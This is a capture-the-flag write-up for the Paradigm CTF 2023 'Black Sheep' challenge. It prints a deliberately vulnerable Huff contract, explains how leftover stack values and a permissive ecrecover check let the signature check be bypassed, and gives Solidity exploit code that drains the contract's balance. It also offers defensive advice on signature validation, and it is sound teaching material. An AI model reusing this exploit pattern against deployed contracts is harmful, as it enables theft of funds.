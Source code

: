 # Paradigm CTF 2023 - Black Sheep

<!-- MarkdownTOC levels="1,2,3" autolink="true" -->

- [Introduction](#introduction)
- [The Contract](#the-contract)
- [Contract Analysis](#contract-analysis)
  - [1. The `withdraw` Function](#1-the-withdraw-function)
  - [2. Identifying the Vulnerability](#2-identifying-the-vulnerability)
- [Exploit Construction](#exploit-construction)
- [Generating a Valid Signature](#generating-a-valid-signature)
- [Exploit Code](#exploit-code)
- [Conclusion](#conclusion)
- [Repositories](#repositories)

<!-- /MarkdownTOC -->

## Introduction

In this article we'll discuss the solution to the challenge from the Paradigm CTF 2023 called "Black Sheep." The contract is written in Huff, a low-level language designed for Ethereum Virtual Machine (EVM) development. As someone passionate about low-level EVM security research, this was an exciting opportunity to dive deep into Huff.

## The Contract

```huff
/* Interface */
#define function withdraw(bytes32,uint8,bytes32,bytes32) payable returns ()


#define macro CHECKVALUE() = takes (0) returns (0) {
    callvalue 0x10 gt over jumpi
    0x00 dup1 revert
    over:
        0x00
        0x00
        0x00
        0x00
        callvalue 0x02 mul
        caller
        0xFFFFFFFF
        call
}
#define macro CHECKSIG() = takes (0) returns (1) {
    0x04 calldataload
    0x00 mstore
    0x24 calldataload
    0x20 mstore
    0x44 calldataload
    0x40 mstore
    0x64 calldataload
    0x60 mstore
    0x20
    0x80
    0x80
    0x00
    0x1
    0xFFFFFFFF
    staticcall
    iszero invalidSigner jumpi
    0x80 mload
    0xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044 eq correctSigner jumpi
    end jump

    correctSigner:
        0x00
        end jump
    invalidSigner:
        0x01
        end jump
    end:
}
#define macro WITHDRAW() = takes (0) returns (0){
    CHECKVALUE()
    CHECKSIG()
    iszero iszero noauth jumpi
    0x00 dup1 dup1 dup1
    selfbalance caller
    gas call
    end jump
    noauth:
        0x00 dup1 revert
    end:
}


#define macro MAIN() = takes (0) returns (0) {
    // Identify which function is being called.
    0x00 calldataload 0xE0 shr
    dup1 __FUNC_SIG(withdraw) eq withdrawj jumpi
    callvalue 0x00 lt recieve jumpi

    0x00 0x00 revert

    withdrawj:
        WITHDRAW()
    recieve:
}
```

## Contract Analysis

### 1. The `withdraw` Function

The function `withdraw(bytes32,uint8,bytes32,bytes32)` maps to the `WITHDRAW()` macro. It relies on two sub-macros:

- **`CHECKVALUE()`**: Verifies `msg.value` and reverts if it's more than `0x10` wei. If valid, it doubles the amount and sends it back.
- **`CHECKSIG()`**: Calls the precompiled contract `ecrecover` (at address `0x1`) to verify the signature against a specific address.

### 2. Identifying the Vulnerability

- **Signature Validation Issue:** The contract allows any valid signature, even from addresses other than the intended signer (`0xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044`).
- **Redundant `ISZERO` Usage:** The use of `ISZERO` twice doesn't add value; it leaves the stack unchanged. This quirk is not critical for the exploit and may be distractive.
- **Fallback Stack Behavior:** In this particular case, the returned value from
  `CHECKVALUE()`'s `CALL` is used by `JUMPI` if `CHECKSIG()` doesn't push a value.
  This behavior influences the control flow, as `JUMPI` will rely on whatever
  happens to be on top of the stack.

## Exploit Construction

1. Deploy an Attack Contract:

  - The `receive()` function should revert when `msg.value == 0x12` to ensure `CALL` returns `0x0`.
  - Otherwise, it should succeed to collect the funds.

2. Trigger the Vulnerability:

  - Call `withdraw()` with either:
    - A valid signature from any address.
    - Or the tuple `(0x00, 27, 0x00, 0x00)` which results in a non-zero response from `ecrecover`.

## Generating a Valid Signature

We can use `cast` to create an address and generate a valid signature.

<p style="text-align: center;">
  <img width="600" src="/docs/assets/img/black-sheep-01.png">
</p>

## Exploit Code

```solidity
function testExploit() public {
    bytes32 msgHash = keccak256("Black Sheep");
    bytes32 r = 0x9f2c9ed6b027b594f5072cc39b6c5ffca1ca157ad5b661d0d268c577eede360c;
    bytes32 s = 0x52e8bf726d82a28ebd9b172efba7e75fd0671f6c1544b5a5b70ad803de360e33;
    uint8 v = 27;
    bank.withdraw{value: 0x09}(msgHash, v, r, s);

    assertEq(address(Challenge(challengeAddress).BANK()).balance, 0);
}

receive() external payable {
  if (msg.value == 0x12) {
    revert("");
  }
}
```

## Conclusion

This challenge highlighted the nuances of stack manipulation in Huff and the
critical importance of careful flow control, especially for security-related
validations. It also underscores the need for robust signature verification.

To prevent vulnerabilities like signature malleability, contracts should
implement additional controls. For example, the tuple `(0x00, 27, 0x00, 0x00)`
is considered valid by `ecrecover`, so contracts relying on signature
validation must properly handle such cases to prevent misuse.

Additionally, signatures should be bound to specific messages to prevent
replay attacks. Validation checks must ensure only authorized signers are
accepted to maintain the contract's security posture.

Incorporating these best practices helps build more secure smart contracts
and reduces the risk of common attack vectors.

## Repositories

* https://github.com/bentobox19/paradigm-ctf/
* https://github.com/paradigmxyz/paradigm-ctf-2023
